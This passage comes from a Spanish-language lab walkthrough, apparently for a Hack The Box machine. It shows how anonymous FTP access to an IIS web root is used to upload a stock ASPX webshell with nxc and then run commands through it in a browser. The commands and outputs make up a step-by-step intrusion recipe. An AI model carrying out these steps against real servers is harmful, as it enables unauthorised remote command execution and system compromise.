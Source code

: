 ## Intrusion

### Abusing FTP & IIS to Upload a Webshell and Execute Commands

Dado que hemos comprobado que al parecer el servidor `FTP` se encuentra montado en la ruta donde se encuentra el `IIS`levantado, lo que probaremos es de intentar subir una **webshell** de `ASPX` para poder  ejecutar comandos arbitrarios en el sistema objetivo.

```bash
❯ locate cmd.aspx
/usr/share/davtest/backdoors/aspx_cmd.aspx
/usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx

❯ cp /usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx .
```

Subiremos nuestra `webshell` llamada `cmd.aspx`al servidor `FTP`.

```bash
❯ nxc ftp 10.10.10.5 -u 'anonymous' -p '' --put cmd.aspx cmd.aspx
FTP         10.10.10.5      21     10.10.10.5       [*] Banner: Microsoft FTP Service
FTP         10.10.10.5      21     10.10.10.5       [+] anonymous: - Anonymous Login!
FTP         10.10.10.5      21     10.10.10.5       [+] Uploaded: cmd.aspx to cmd.aspx
```

Verificaremos que finalmente se ha subido correctamente, con lo cual confirmamos que tenemos capacidad de subir archivos desde nuestro sistema.

```bash
❯ nxc ftp 10.10.10.5 -u 'anonymous' -p '' --ls
FTP         10.10.10.5      21     10.10.10.5       [*] Banner: Microsoft FTP Service
FTP         10.10.10.5      21     10.10.10.5       [+] anonymous: - Anonymous Login!
FTP         10.10.10.5      21     10.10.10.5       [*] Directory Listing
FTP         10.10.10.5      21     10.10.10.5       03-18-17  01:06AM       <DIR>          aspnet_client
FTP         10.10.10.5      21     10.10.10.5       02-20-25  07:03PM                 1400 cmd.aspx
FTP         10.10.10.5      21     10.10.10.5       03-17-17  04:37PM                  689 iisstart.htm
FTP         10.10.10.5      21     10.10.10.5       03-17-17  04:37PM               184946 welcome.png
```

Accederemos a [http://10.10.10.5/cmd.aspx](http://10.10.10.5/cmd.aspx) y comprobaremos que efectivamente se encuentra nuestra `webshell` subida y podemos ejecutar comandos en el sistema.

<figure><img src="../../.gitbook/assets/5193_vmware_8KpYM3PEW4.png" alt=""><figcaption></figcaption></figure>

